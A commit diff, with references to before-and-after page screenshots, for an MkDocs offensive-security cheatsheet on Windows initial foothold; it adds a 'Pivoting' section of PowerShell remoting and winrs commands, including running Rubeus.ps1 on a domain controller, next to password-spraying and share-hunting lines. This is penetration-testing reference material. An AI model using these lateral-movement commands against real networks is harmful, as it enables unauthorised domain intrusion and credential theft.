

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Initial_Foothold.md, in a window 1280 px wide and 1400 px high, scrolled down 4405 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 5047 px from its top, so only the background shows below that.

Commit message:
Update Initial_Foothold.md

````diff
--- a/docs/Windows/Initial_Foothold.md
+++ b/docs/Windows/Initial_Foothold.md
@@ -170,6 +170,40 @@ Invoke-DomainPasswordSpray -Password Spring2017
 Find-InterestingDomainShareFile
 ```
 
+---
+## Pivoting
+### Executing Commands Remotely
+* PsExec
+* Powershell Remote Session (PSRemote)
+    * "Usual" requirement is that you must be in the same subnet as the machine you are connecting to
+    * Create a session
+        * Without specified credentials
+            ```powershell
+            New-PSSession dc01.domain.com
+            $s = New-PSSession dc01.domain.com
+            ```
+        * Create a session with credentials
+            ```powershell
+            $cred = get-credential
+            New-PSSession dc01.domain.com –Credential $cred
+            ```
+    * Run commands remotely via PSSession
+        ```powershell
+        Invoke-Command -Session $s -FilePath C:\Temp\Rubeus.ps1
+        ```
+    * Interactive PSSession
+        ```powershell
+        Enter-PSSession -Id <#>
+        ```
+    * Exit PSSession
+        ```powershell
+        Remove-PSSession -Id <#>
+        ```
+* Windows Remote Management
+    ```batch
+    winrs -r:DC01.domain.com cmd
+    ```
+
 
 
 [^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
````
